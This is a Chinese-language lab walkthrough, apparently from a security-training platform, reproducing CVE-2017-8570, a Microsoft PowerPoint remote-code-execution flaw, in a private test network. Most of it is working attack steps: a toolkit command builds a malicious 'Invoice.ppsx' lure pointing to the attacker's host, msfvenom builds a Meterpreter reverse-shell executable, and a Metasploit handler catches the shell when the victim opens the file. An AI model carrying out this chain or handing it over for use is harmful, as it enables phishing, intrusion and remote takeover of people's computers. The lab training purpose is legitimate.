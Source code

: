 ```yaml
---
description: CVE-2017-8570
---
```


# Microsoft Office远程代码执行漏洞

## 【原理】

该漏洞为Microsoft Office的一个远程代码执行漏洞。其成因是`Microsoft PowerPoint`执行时会初始化`Script”Moniker`对象，而在`PowerPoint`播放动画期间会`激活`该对象，从而执行`sct`脚本（Windows Script Component）文件。攻击者可以欺骗用户运行含有该漏洞的PPT文件，导致获取和当前登录用户相同的代码执行权限。

## 【工具】

* Office
* Python
* kali

## 【步骤】

```text
靶机：
操作系统:windows 7 sp1 x64
Office版本*：Office 专业增强版 2016
ip：192.168.0.103
攻击者Kali：
操作系统：kali2021.4
metasploit版本：msf6
ip：192.168.0.104
```

1.点击启动场景按钮，等待场景启动完成后，通过靶标接入协议进入漏洞标靶

2..生成恶意PPSX文件

```text
cd Office8570   //进入exp文件夹
python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.0.104/logo.doc  
//这里的192.168.0.104是攻击者的ip地址
```

![image-20210222143131040](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222143131040.png)

3..生成反弹shell 的 exe 文件

```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.104 LPORT=4444 -f exe > shell.exe
```

`LHOST`是攻击者的`ip`，`LPORT`这里设置的是监听本机的`6666`端口

```text
生成针对x64位系统 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.140 LPORT=6666 -f exe > shell.exe
生成针对32位系统  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.140 LPORT=6666 -f exe > shell.exe
```

![image-20210222143452126](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222143452126.png)

4.使用EXP监听会话：监听目标打开的Invoice.ppsx执行的shell.exe。需要切换到root用户。

```text
su  //使用root权限
输入密码
python cve-2017-8570_toolkit.py -M exp -e http://192.168.0.104/shell.exe -l shell.exe
```

![image-20210222143645464](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222143645464.png)

5.再使用msf监听 exp执行的shell.exe，也就是目标打开Invoice.ppsx也就执行了shell.exe。

```text
~ msfconsole

use exploit/multi/handler
set LHOST 192.168.0.104
set LPORT 4444
show options
64位系统 msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp
32位系统 msf > set PAYLOAD windows/meterpreter/reverse_tcp

msf > exploit
```

![image-20210222144104909](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222144104909.png)

![image-20210222144200944](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222144200944.png)

![image-20210222144212095](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222144212095.png)

6.靶机打开Invoice.ppsx

![image-20210222144404718](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222144404718.png)

![image-20210222144736918](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222144736918.png)

7.反弹shell拿到权限

![image-20210222144329885](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222144329885.png)

![image-20210222144514645](https://gitee.com/Harveysn0w/mac-note_img/raw/master/image-20210222144514645.png)


